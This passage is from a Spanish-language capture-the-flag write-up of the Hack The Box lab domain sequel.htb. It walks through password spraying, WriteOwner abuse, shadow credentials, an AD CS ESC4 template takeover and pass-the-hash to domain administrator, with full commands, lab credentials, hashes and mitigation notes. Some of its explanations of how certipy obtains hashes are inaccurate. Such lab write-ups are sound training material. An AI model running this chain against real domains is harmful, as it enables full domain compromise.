SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
```

Y parece que funciona con evilwinrm: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ netexec winrm dc01.sequel.htb -u ryan -p WqSZAF6CysDQbGb3                       
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
WINRM       10.10.11.51     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
```

Obtenemos la primera flag: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ evil-winrm -u ryan -p WqSZAF6CysDQbGb3 -i dc01.sequel.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
sequel\ryan
*Evil-WinRM* PS C:\Users\ryan\Documents> ls
*Evil-WinRM* PS C:\Users\ryan\Documents> cd ..
*Evil-WinRM* PS C:\Users\ryan> ls


    Directory: C:\Users\ryan


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/9/2024   4:24 AM                Desktop
d-r---         1/6/2025   5:32 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos


*Evil-WinRM* PS C:\Users\ryan> cd Desktop
*Evil-WinRM* PS C:\Users\ryan\Desktop> ls


    Directory: C:\Users\ryan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/26/2025   6:26 AM             34 user.txt
```

Para mitigar esto: 

- Después de instalar SQL Server, el archivo .INI no es necesario y debe eliminarse de inmediato.
-  Restringir permisos en la carpeta
   Asegúrarse de que solo los administradores tengan acceso a:
    C:\SQL2019
    Cualquier otro path donde se guarden secretos o configuraciones sensibles.
- En lugar de poner contraseñas en .INI, se recomienda:
    Usar scripts seguros que pidan las contraseñas al momento de ejecución.
    O utilizar el SQL Server Configuration File Template sin incluir SQLSVCPASSWORD ni SAPWD, sino pasarlos en el prompt.

Dentro del usuario `Ryan` no encontramos mucho, asì que pasamos a realizar la recolección con bloodhound, netexec ya nos permite hacer esto:

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ netexec ldap dc01.sequel.htb -u ryan -p WqSZAF6CysDQbGb3 --bloodhound --collection All --dns-server 10.10.11.51
[*] Initializing LDAP protocol database
LDAP        10.10.11.51     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
LDAP        10.10.11.51     389    DC01             Resolved collection methods: objectprops, group, localadmin, dcom, rdp, session, trusts, acl, container, psremote
[17:01:03] ERROR    Unhandled exception in computer DC01.sequel.htb processing: The NETBIOS connection with the remote host timed out.                                      computers.py:268
LDAP        10.10.11.51     389    DC01             Done in 00M 21S
LDAP        10.10.11.51     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.10.11.51_2025-05-26_170042_bloodhound.zip
```

En bloodhound vemos lo siguiente: 



El permiso **WriteOwner** en Active Directory nos da la capacidad de **cambiar el propietario** (owner) de ese objeto en el directorio. En concreto:

1. **¿Qué es el “owner” de un objeto AD?**
   Cada objeto en AD (usuarios, grupos, máquinas, etc.) tiene un atributo especial llamado **“owner”**, que por defecto es el SID del grupo o usuario que lo creó (o el que el administrador configuró). Quien sea owner de un objeto, tiene implícitamente el permiso **WriteOwner** (y a menudo también Full Control).

2. **¿Qué permite WriteOwner?**

   * Modificar el atributo `nTSecurityDescriptor` para cambiar el campo **owner** a cualquier otro usuario o grupo.
   * En la práctica, esto significa que si tenemos **WriteOwner** sobre `ca_svc`, podemos ejecutar algo equivalente a:

     ```ldap
     dn: CN=ca_svc,OU=Users,DC=sequel,DC=htb
     changetype: modify
     replace: ntSecurityDescriptor
     ntSecurityDescriptor:: <SDDL que establezca un nuevo OWNER>
     ```
   * Una vez que nos convertimos en owner, AD nos concederá automáticamente más capacidades sobre ese objeto — por ejemplo, podremos reasignar permisos ACL, eliminar el objeto, o darnoss permisos adicionales (como GenericAll).

3. **¿Por qué es poderoso WriteOwner?**

   * Aunque WriteOwner **solo** nos permite cambiar el propietario, una vez que somos propietarios podemos después darnos **cualquier permiso** sobre el objeto (incluido GenericAll).
   * Eso abre la puerta a manipular atributos sensibles (como msDS-KeyCredentialLink) para escalar aún más.


Asì que nos hacemos "owner" de ca_svc: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ bloodyAD -d sequel.htb --host 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan 
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ bloodyAD -d sequel.htb --host 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
[+] ryan has now GenericAll on ca_svc
```
Y ya podemos ejecutar lo siguiente: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ /usr/bin/certipy-ad shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '742e1e4c-ef2f-8b00-8209-3ab13cdf437c'
[*] Adding Key Credential with device ID '742e1e4c-ef2f-8b00-8209-3ab13cdf437c' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '742e1e4c-ef2f-8b00-8209-3ab13cdf437c' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```

**Certipy-ad shadow auto genera un certificado, lo añade dinámicamente a ca_svc, se autentica con él (sin conocer la contraseña original), obtiene un TGT y luego, aprovechando la sesión de autenticación como ca_svc, hace un DCSync o equivalente para extraer el NT-hash de ca_svc.**

Y parece que el hash es válido: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ netexec smb dc01.sequel.htb -u ca_svc -H 3b181b914e7a9d5508ea1e20bc2b7fce
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ca_svc:3b181b914e7a9d5508ea1e20bc2b7fce
```

Y podemos ejecutar lo siguiente para buscar plantillas vulnerables: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ /usr/bin/certipy-ad find -vulnerable -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -stdout 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sequel-DC01-CA'
[*] Checking web enrollment for CA 'sequel-DC01-CA' @ 'DC01.sequel.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireCommonName
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-05-27T00:33:28+00:00
    Template Last Modified              : 2025-05-27T00:33:28+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Cert Publishers
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```


Vemos que existe la vulnerabilidad `ESC4` en la plantilla `DunderMifflinAuthentication`

En el contexto de AD CS (Active Directory Certificate Services), **ESC4** es el cuarto de los caminos de escalada de privilegios (“Escalation through Certificate Services”) que Certipy puede detectar y explotar. Concretamente, **ESC4** se refiere a una **configuración débil en la ACL (lista de control de acceso) de una plantilla de certificado** que permite a un usuario no administrador **modificar** dicha plantilla.

---

### ¿Qué permisos concretos habilitan ESC4?

Para que una plantilla sea vulnerable a ESC4, basta con que un usuario o grupo tenga alguno de estos permisos sobre el objeto de la plantilla de certificado:

* **Owner** (propietario): control total implícito.
* **WriteOwner** (WriteOwnerPrincipals): puede cambiar el propietario.
* **WriteDacl** (WriteDaclPrincipals): puede modificar los derechos de acceso.
* **WriteProperty** (WritePropertyPrincipals): puede editar cualquier propiedad de la plantilla.
* **FullControl**: control total del objeto.

Si cualquiera de estos ACEs (Access Control Entries) está concedido a un principal de bajo privilegio (por ejemplo, **Domain Users** o **Cert Publishers**), ese usuario puede alterar la plantilla y **inyectar** nuevas configuraciones maliciosas (por ejemplo, habilitar “Enrollee Supplies Subject” o “Client Authentication” para cualquier usuario), configurando así una ruta de escalada ESC1 dentro de ESC4 ([Black Hills Information Security, Inc.][1]).

---

### ¿Por qué es peligroso?

1. **Modificación de la plantilla**: el atacante puede cambiar permisos o propiedades para permitir que usuarios no privilegiados se inscriban (`Enroll`) como cualquier identidad.
2. **Escalada indirecta**: una vez modificado, el atacante explota la ruta ESC1 (“Alternate Subject Name”) para emitir un certificado que le permita **autenticarse** como un usuario de mayor privilegio (por ejemplo, un administrador de dominio).
3. **Persistencia y movimiento lateral**: con el certificado apropiado, el atacante puede acceder a recursos, replicar contraseñas (DCSync) o moverse lateralmente en la red. ([BeyondTrust][2]).

---



Esto indica que el grupo **Cert Publishers** tiene uno de los permisos peligrosos (por ejemplo, **WritePropertyPrincipals**) sobre la plantilla **DunderMifflinAuthentication**. Como cualquier miembro de ese grupo puede modificar la plantilla, un atacante puede:

1. **Cambiar la plantilla** para permitir “Subject Alt Name” libre.
2. **Solicitar** un certificado en nombre de, digamos, un **Domain Admin**.
3. **Autenticarse** contra servicios Windows usando ese certificado y obtener control completo del dominio.


### Se recomienda: 

* Revisar y endurecer las ACLs de las plantillas de certificado, limitando **Owner**, **WriteOwner**, **WriteDacl** y **WriteProperty** solo a grupos de alto privilegio (Domain Admins, Enterprise Admins).
* Auditar regularmente con herramientas como Certipy (`certipy find -vulnerable`) para detectar futuras configuraciones débiles.
* Implementar aprobación de inscripción (Manager Approval) cuando sea posible y habilitar registros de auditoría en AD CS.

Con este conocimiento de ESC4 podrás entender por qué la plantilla que habéis encontrado es vulnerable y cómo un atacante podría aprovecharla para escalar privilegios en un entorno de Active Directory.

Procedemos a explotar esto: 


El objetivo es modificar la ACL (lista de control de acceso) de la plantilla de certificado DunderMifflinAuthentication para restaurar su configuración “por defecto” y así habilitar el enrolamiento automático sin necesidad de permisos elevados (explotación de ESC4).
```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ /usr/bin/certipy-ad template -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -write-default-configuration -no-save
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: SEQUEL.HTB.
[!] Use -debug to print a stacktrace
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y
[*] Successfully updated 'DunderMifflinAuthentication'
```

| Parámetro                               | Descripción                                                                                                 |
| --------------------------------------- | ----------------------------------------------------------------------------------------------------------- |
| `template`                              | Subcomando de Certipy para operar sobre plantillas de certificado.                                          |
| `-u ca_svc@sequel.htb`                  | Usuario con el que te autenticas contra Active Directory.                                                   |
| `-hashes 3b181b…7fce`                   | Hashes NTLM de la contraseña de `ca_svc`, para autenticación Pass-the-Hash.                                 |
| `-template DunderMifflinAuthentication` | Nombre de la plantilla que quieres modificar.                                                               |
| `-write-default-configuration`          | Sobrescribe la seguridad de la plantilla con los permisos “por defecto” (inclusión de `Enroll` para todos). |
| `-no-save`                              | No guarda en disco la configuración anterior; solo aplica los cambios directamente.                         |

Ahora hay que solicitar y descargar un certificado emitido por la CA sequel-DC01-CA, haciendo que el CA firme un certificado con UPN de un usuario de alta prioridad (administrator@sequel.htb).                                                                                                                                                                                            

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ /usr/bin/certipy-ad req -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn administrator@sequel.htb 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: SEQUEL.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

| Parámetro                               | Descripción                                                                                              |
| --------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| `req`                                   | Subcomando de Certipy para **request** (solicitar) certificados.                                         |
| `-u ca_svc@sequel.htb`                  | Credenciales usadas de nuevo para autenticarse.                                                          |
| `-hashes …`                             | Hash NTLM, igual que antes, para autenticación sin contraseña en texto claro.                            |
| `-ca sequel-DC01-CA`                    | Nombre de la autoridad certificadora (CA) desde la que quieres emitir el certificado.                    |
| `-template DunderMifflinAuthentication` | Plantilla modificada que ahora permite enrolar sin restricciones.                                        |
| `-upn administrator@sequel.htb`         | **User Principal Name**: establece el sujeto del certificado como si fuera el Administrador del dominio. |
                                                                                                                                                                                        
- Envía la petición RPC al servicio de la CA.
- La CA verifica que la plantilla permite enrolar (gracias al cambio previo).
- Emite un certificado X.509 con la identidad administrator@sequel.htb.
- Devuelve el archivo .pfx, que contiene la clave privada y el certificado.


```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ /usr/bin/certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.51
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

- Carga del certificado
  Certipy lee el .pfx y extrae la clave pública, la clave privada y el UPN (Subject Alternative Name) contenido en él (aquí administrator@sequel.htb).

- Petición de TGT (Ticket-Granting Ticket)
  Se conecta al servicio Kerberos del DC especificado y, utilizando el certificado como “prueba” de identidad, solicita un TGT para el usuario indicado en el UPN.

  “Trying to get TGT… Got TGT”

- Almacenamiento del ticket
  El TGT recibido se guarda en un credential cache (administrator.ccache), permitiendo usar herramientas basadas en Kerberos para interacciones posteriores.

  “Saving credential cache to 'administrator.ccache'”

- Extracción de hash NT
  Ya dentro del contexto de Kerberos con privilegios de Administrador, Certipy emplea un método (por ejemplo, un AS-REP Roasting o petición LDAP) para recuperar el hash NT de la cuenta administrator.


**Con esto, ya podemos usar el Hash NT para autenticarnos como administrador.**
```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ evil-winrm -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff -i dc01.sequel.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls C:\Users\Administrator\Desktop


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/26/2025   6:26 AM             34 root.txt
```


-----------

## Algunas medidas de mitigación

Para impedir que un atacante ejecute este flujo de “certificado → TGT → extracción de hash”, conviene aplicar las siguientes contramedidas en tu entorno de AD CS y Kerberos:

1. **Restricción de uso de certificados para Kerberos**

   * Limitar el **Extended Key Usage (EKU)** de las plantillas que emiten certificados: quita “Client Authentication” y añade únicamente el EKU necesario.
   * En DCs, deshabilitar la autenticación Kerberos basada en certificados si no es estrictamente necesaria:

     ```powershell
     Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa\Kerberos\Parameters" `
       -Name "SupportedEku" -Value "<OID_de_Kerberos_PKI>"
     ```

2. **Endurecimiento de ACLs en plantillas**

   * Quitar permisos de escritura (`WriteProperty`, `WriteDacl`, `WriteOwner`) y control total de plantillas a grupos distintos de Administradores de Dominio o Enterprise Admins.
   * No concederi al grupo **Cert Publishers** ni a “Authenticated Users” derechos de modificación sobre plantillas sensibles.

3. **Aprobación y auditoría de inscripciones**

   * Activar la opción **Requires Manager Approval** en plantillas críticas, de modo que cada petición pase por un flujo de validación manual.
   * Habilitar auditoría de inscripciones y revisar periódicamente los logs de AD CS por peticiones inusuales o emitidas hacia UPNs de alto privilegio.

4. **Validación de revocación**

   * Publicar y actualizar regularmente las **CRLs** (listas de certificados revocados) y obliga a los clientes a comprobarlas antes de aceptar tickets Kerberos basados en certificados.
   * Considerar implementar **Online Certificate Status Protocol (OCSP)** para revocación en tiempo real.

5. **Segmentación y mínimos privilegios**

   * Separar el servicio de Autoridad de Certificación (CA) en una **subred aislada** y con firewall que sólo permita conexiones desde sistemas de gestión aprobados.
   * Emplear cuentas dedicadas de baja interacción para la gestión de AD CS (no usar cuentas de alto privilegio para tareas diarias).


